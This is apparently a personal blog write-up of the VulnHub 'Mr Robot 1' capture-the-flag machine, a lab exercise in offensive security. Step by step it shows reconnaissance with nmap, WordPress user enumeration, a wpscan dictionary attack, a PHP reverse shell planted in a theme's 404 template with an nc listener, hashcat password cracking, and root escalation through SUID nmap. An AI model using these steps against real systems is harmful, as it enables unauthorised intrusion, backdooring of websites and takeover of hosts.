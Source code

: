<!-- Title: Hacking Mr Robot Style
save_as:mrR0b0+.html
Slug: mrR0b0+
Date: 2018-04-16 -->
# Hackin Like Mr. Robot
### By: Daniel Santiago
  > A simple writeup of the 'mr robot 1' challenge from vulnhub.com
  challenge: https://www.vulnhub.com/entry/mr-robot-1,151/
  Tools: https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/


  1. First we need to 'probe' the machine to see what's going on:
    * `nmap -sV <target IP>`
  2. As you can see this machine has an open `http` connection on port: `80`. So the next thing to try is open that IP address in the browser to see what it is.

  3. Since this is kind of an interactive page and we are not sure if we can actually use what we are seeing to exploit the machine we should now try to check what's in the `robots.txt` page (this is a 'standard' file in most websites, here's a link with some info: `https://moz.com/learn/seo/robotstxt`).

  4. Now that we can see some files notice that we found our first key `key-1-of-3.txt`. Now let's go ahead and check that other file that we are getting(`fsociety.dic`).

  5. Since we now have a password dictionary let's go ahead and sort it and count the words to see if we have repeated passwords.
    ```
    $wget <target IP>/fsociety.dic
    $wc -l fsociety.dic
    $sort -u fsociety.dic > sorted.txt
    $wc -l sorted.txt
    ```

  6. Notice that we lowered our number of passwords. The next thing we should check is if the page that we are checking is a `WordPress` page. To do this just try to navigate to `<target IP>/readme.html` if you find a page that tells you the version of word press you win.

  7. Now that we now that this is a `WordPress` page we can use simple tools to try and exploit it. Let's go ahead and try to get into the `wp-login.php` page of the site. Navigate to '<target IP>/wp-login.php'. A nice thing that `WordPress` does for us hackers is tell us what users are valid targets or not. Notice that if you enter a random user and password combination the page will actually tell you if the user is a valid user for that site by giving us an error and telling us we are using an invalid username.(how nice of `WordPress`).

  8. Since this is a `Mr Robot` challenge we should try to reference some of the show's characters. Try entering the names of a few characters until you find a valid one.

  9. Now that we have a username we should try to use our trusty `wpscan` tool with our password list for a nice dictionary attack on the site.
  ```
  $wpscan -u http://<target Ip>/wp-login.php --wordlist <sorted.txt> --username elliot --wp-content-dir wp-content
  ```
  10. Now that we have access to the `WordPress admin page` we should first see if we can upload a page or a file of some sort.
    > We will be modifying a payload that comes with kali linux that is available in /usr/share/webshells/php/php-reverse-shell.php
    * cp /usr/share/webshells/php/php-reverse-shell.php backdoor.php

  11. Let's modify our exploit according to our machine. The only things we have to modify on this fie is the `$ip` and the `$port` variables. Now that we have that let's upload the content of the page by simple going to the `Appearence>Editor` page of the `WordPress` admin page. Now choose the `404 Template` and go ahead and substitute it's content with the code of our exploit.

  12. Next we have to setup a `listener` for this we will be using our networking `swiss army knife`
    ```
    nc -lvnp <port>
    ```

  13. Now that we have our listener all we need to do is try to go to a page such that we get the `404 Template`

  14. Now that we have a shell let's get something out of the way and `spawn` a "proper" shell
    ```
    $python -c "import pty; pty.spawn('/bin/sh')"
    ```

  15. Let's navigate to `/home` and list what's there just to see what we can find.
    ```
    $cd /home
    $ls
    cd /robot
    ```

  16. Now that we have entered one of the users `filesystem` let's see what this user has. Notice that we have just found our 2 key but we can't actually see it since it has proper user permissions.

  17. Since there's a password file let's suppose that this is the password for this user. Now we just have to crack it. Save it to a file just as it is. Next let's use `hashcat` to crack our password. (First let's get our cracking dictionary)
    ```
    $hashcat --f crackme.txt rockyou.txt
    $su robot
    ```

  18. Now that we have a password for this user let's login to see what we can find. Since we can't see what `root` has in his home folder let's try a little `priveledge escalation`.First let's see which files we can execute that belong to `root`.
    ```
    $find / -user root -perm -4000
    ```

  19. Notice that one of the binaries that we list is nmap. So let's use it's `interactive mode` to escalate to root.
    ```
    $nmap --interactive
    nmap> !sh
    ```

  20. Now that we are `root` let's navigate our `home folder`. And we have actually found our final key.

  >With love Daniel San...
